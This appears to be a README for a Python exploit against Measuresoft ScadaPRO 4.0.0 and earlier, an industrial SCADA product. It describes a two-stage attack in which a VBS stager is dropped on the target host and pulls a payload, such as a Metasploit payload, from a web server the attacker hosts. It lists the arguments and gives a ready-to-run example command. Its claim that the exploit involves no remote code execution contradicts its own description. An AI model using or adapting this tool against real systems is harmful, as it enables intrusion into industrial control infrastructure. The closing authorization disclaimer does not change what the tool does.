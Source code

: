 # Measuresoft-ScadaPRO
2-staged exploit for vulnerability that arises in Measuresoft ScadaPRO 4.0.0 (and earlier) versions. <br>
This exploits doesn't perform RCE, which makes it unique it serves payload through the locally hosted web server. <br>
You should generate your own or metasploit payload in this directory which you want to be executed on remote scada host.

## Requirements
```
Python 3.x
Libraries:
argparse
requests
sys
os
```

## CLI parse explanation
```
rhost = remote host ip address
rport = remote host port used for exploitation
lhost = local (or remote) host which will be used to serve payload
lport = local (or remote) host port used for serving payload
payload_name = file name for payload served
stager_name = file name for vbs script which is stager
temp_folder = directory where vbs stager will be hosted
```
## Usage
`ALL ARGUMENTS MUST BE USED` <br>
Usage: `python3 exploit.py [rhost] [rport] [lhost] [lport] [payload name] [stager name] [temp directory]` <br>
Example: `python3 exploit.py 192.168.1.1 502 192.168.1.2 8080 payload.exe stager.vbs /tmp`

# Disclaimer
### Do not use this against targets that did not give you authorization to do it. I am not responsible for any misusage of this program.

```
  ___ ___                __       __  .__               _________                  .___       
 /   |   \_____    ____ |  | __ _/  |_|  |__   ____    /   _____/ ____ _____     __| _/____   
/    ~    \__  \ _/ ___\|  |/ / \   __\  |  \_/ __ \   \_____  \_/ ___\\__  \   / __ |\__  \  
\    Y    // __ \\  \___|    <   |  | |   Y  \  ___/   /        \  \___ / __ \_/ /_/ | / __ \_
 \___|_  /(____  /\___  >__|_ \  |__| |___|  /\___  > /_______  /\___  >____  /\____ |(____  /
       \/      \/     \/     \/            \/     \/          \/     \/     \/      \/     \/ 
```
